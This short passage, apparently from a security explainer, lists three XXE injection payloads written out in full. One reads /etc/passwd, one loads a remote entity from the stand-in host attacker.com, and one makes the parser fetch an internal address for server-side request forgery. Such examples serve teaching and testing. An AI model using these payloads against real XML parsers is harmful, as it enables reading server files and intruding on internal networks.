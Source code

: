 - Injecting a local file on the server, such as /etc/passwd, into the XML document:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

- Injecting a remote file, such as a file hosted on a malicious server controlled by the attacker, into the XML document:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://attacker.com/malicious.xml" >]>
<foo>&xxe;</foo>
```

- Injecting a server-side request forgery (SSRF) attack to access internal network resources:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://internal.company.com/secret.php" >]>
<foo>&xxe;</foo>
```
